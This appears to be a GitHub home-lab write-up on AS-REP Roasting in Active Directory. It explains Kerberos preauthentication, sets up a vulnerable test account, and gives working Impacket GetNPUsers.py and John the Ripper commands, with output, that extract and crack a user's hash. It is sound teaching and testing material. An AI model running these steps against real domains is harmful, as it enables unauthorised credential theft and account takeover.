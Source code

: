 # 🔐ASREProast


**AS-REP Roasting** is a Kerberos-based attack in Active Directory that targets user accounts with **"Do not require Kerberos preauthentication"** enabled. It's a way for attackers to obtain password hashes without needing to authenticate first — ideal for stealthy offline password cracking.

---

##  What is Preauthentication in Kerberos?

Kerberos typically requires **preauthentication** to prevent offline attacks. A user proves their identity by encrypting a timestamp with their password-derived key. The Domain Controller (KDC) verifies it before issuing a TGT (Ticket Granting Ticket).

If **preauthentication is disabled**, the KDC just gives out an KRB-AS-REP response (containing a blob encrypted with the user's password hash) without verifying identity — this opens a door.

##  How Normal Kerberos Authentication Works

This is a helpful blog explaining how standard Kerberos authentication functions:

[Kerberos Authentication](https://software.intel.com/sites/manageability/AMT_Implementation_and_Reference_Guide/default.htm?turl=WordDocuments%2Fintroductiontokerberosauthentication.htm)

<img src="Imgs/image2.png" alt="Error loading Image"/>

•   **Step 1:** The user logs on to the workstation and requests service on the host. The workstation sends a message to the Authorization Server requesting a ticket granting ticket (TGT).

•   **Step 2:** The Authorization Server verifies the user’s access rights in the user database and creates a TGT and session key. The Authorization Sever encrypts the results using a key derived from the user’s password and sends a message back to the user workstation.

The workstation prompts the user for a password and uses the password to decrypt the incoming message. When decryption succeeds, the user will be able to use the TGT to request a service ticket.

•   **Step 3:** When the user wants access to a service, the workstation client application sends a request to the Ticket Granting Service containing the client name, realm name and a timestamp. The user proves his identity by sending an authenticator encrypted with the session key received in Step 2.

•   **Step 4:** The TGS decrypts the ticket and authenticator, verifies the request, and creates a ticket for the requested server. The ticket contains the client name and optionally the client IP address. It also contains the realm name and ticket lifespan. The TGS returns the ticket to the user workstation. The returned message contains two copies of a server session key – one encrypted with the client password, and one encrypted by the service password.

•   **Step 5:** The client application now sends a service request to the server containing the ticket received in Step 4 and an authenticator. The service authenticates the request by decrypting the session key. The server verifies that the ticket and authenticator match, and then grants access to the service. This step as described does not include the authorization performed by the Intel AMT device, as described later.

•   **Step 6:** If mutual authentication is required, then the server will reply with a server authentication message.

---

## Setting Up Misconfiguration for AS-REP Roasting

To prepare a system for AS-REP roasting (for testing purposes), we need to introduce a specific misconfiguration.

Let’s assume we have a user account named **Mark James**. We make this account vulnerable by modifying one setting:

 Navigate to the user properties → **Account** tab  
 Check the box labeled **"Do not require Kerberos preauthentication"**

This is how it looks:

![Do not require Kerberos preauthentication](Imgs/image1.png)

---

##  Attacking ASREP

Let’s suppose we have the following list of users in an Active Directory environment. These users can be enumerated using tools like `netexec`, PowerShell scripts, or other enumeration techniques.

```

┌──(kali㉿kali)-\[\~/Home-lab/Kerbrose/asrep-roasting]
└─\$ cat user.txt
Administrator
Guest
krbtgt
jack
hwilliam
jcharles
mjames
Haseeb
Radeel
Abdullah
sql\_user

````

---

###  Extracting AS-REP Roastable Hashes

We use **Impacket’s `GetNPUsers.py`** to request AS-REP responses from users who have `DONT_REQ_PREAUTH` set:

```bash
GetNPUsers.py -usersfile user.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 192.168.129.140 'furious.local/'
````


```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/asrep-roasting]
└─$ GetNPUsers.py -usersfile user.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 192.168.129.140 'furious.local/'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/kali/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User jack doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User hwilliam doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jcharles doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$mjames@FURIOUS.LOCAL:bf278d3b33c1a826d4338707aca0509f$d04188e801023aa9d3cb966a9579d8f7127d499f7684200bd480de39cad0685afe1086e5d39611b28187d9ad8bc8028b379de5d49144b288da14a2dc91654fa8e49ca34055a5f21abdbd217df32bf18977e6840f35e2fa4b5b7faece1222cb3b2cb1c6f03fc9568224418b10642b9a5515ec3b0f68d91bc32c860d337a3341e1db3f88e69d5385ee990d88e6e30cf17c2cd4f9b2e37a28cd086ca9daa064904dd26de5cbacf763172bd8ff2b623715a3c64fffb715c2ee84dde0d999fa019b0cc91ab9ce0037c388deb32735bbf383cc97f22f13feb3e7b6ab5687291138dfa62ab2707301914b1193fc2e7d7247
[-] User Haseeb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Radeel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Abdullah doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sql_user doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                           
```

In this case, only **mjames** was vulnerable, and we obtained an AS-REP hash for that user.

---

###  Cracking the AS-REP Hash

We use **John the Ripper** with the `rockyou.txt` wordlist to crack the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hash.txt
```

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/asrep-roasting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$mjames@FURIOUS.LOCAL)     
1g 0:00:00:00 DONE (2025-05-06 10:35) 20.00g/s 675840p/s 675840c/s 675840C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password for **[mjames@FURIOUS.LOCAL](mailto:mjames@FURIOUS.LOCAL)** was successfully cracked: `Password123`.

---
